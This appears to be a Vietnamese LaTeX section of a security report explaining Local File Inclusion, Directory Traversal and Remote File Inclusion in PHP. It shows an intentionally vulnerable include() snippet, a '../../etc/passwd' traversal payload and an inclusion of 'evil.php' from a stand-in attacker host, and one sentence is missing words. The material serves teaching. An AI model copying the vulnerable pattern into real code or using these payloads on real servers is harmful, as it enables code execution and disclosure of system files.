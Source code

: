 \documentclass[./../main.tex]{subfiles}
\begin{document}
\subsection{Local File Inclusion và Directory Traversal}
Local File Inclusion là lỗ hổng làm cho máy chủ làm lộ hoặc thực thi các
nội dung tập tin trên máy chủ đó. Trong các trường hợp như PHP, khi được
phép tải lên tùy ý tập tin lên thì lỗ hổng này có thể dẫn đến thực thi lệnh
trái phép trên máy chủ Web.

Ví dụ như đoạn mã sau:

\begin{lstlisting}[language=php, caption=Local File Inclusion]
    $file = $_GET['file'];
    include($file);
\end{lstlisting}

Với ví dụ trên, khi người dùng được phép tải lên tập tin tùy ý sẽ khiến cho có thể thực thi bất kì đoạn mã nào do PHP cho phép xử lý động các đoạn mã
khi được gọi câu lệnh `include'. Ví dụ như tham số `file' là `/var/www/upload/evil.php' Với `evil.php' là tập tin có chứ các đoạn mã thực thi lệnh
trái phép.

Kể cả khi không được tải lên tùy ý, lỗ hổng Local File Inclusion cũng
thường được kết hợp với Directory Traversal, cho phép tùy ý đọc tập tin
tại vị trí không được phép để làm lộ các thông tin nhạy cảm của hệ thống.

Ví dụ với tham số được chèn `../../etc/passwd' sẽ khiến thông tin về tập
tin `/etc/passwd' được trả về cho người dùng.

\subsection{Remote File Inclusion}

Tương tự như Local File Inclusion, Remote File Inclusion cho phép máy chủ
làm lộ hoặc thực thi các tập tin nhưng với nội dung từ xa. Thường thì các
dẫn đến thực thi lệnh trái phép trên máy chủ Web.

Tiếp tục với ví dụ của lỗ hổng Local File Inclusion, khi tùy chọn `php allow_url_fopen' được bật sẽ cho phép PHP tải về các nội dung trong URL. Nếu
kẻ tấn công đưa vào tham số `file' là `http://attacker.example.com/evil.php'
thì kẻ tấn công có thể thực thi lệnh trên máy chủ PHP.

\section{Các công cụ rà quét lỗ hổng}
\end{document}
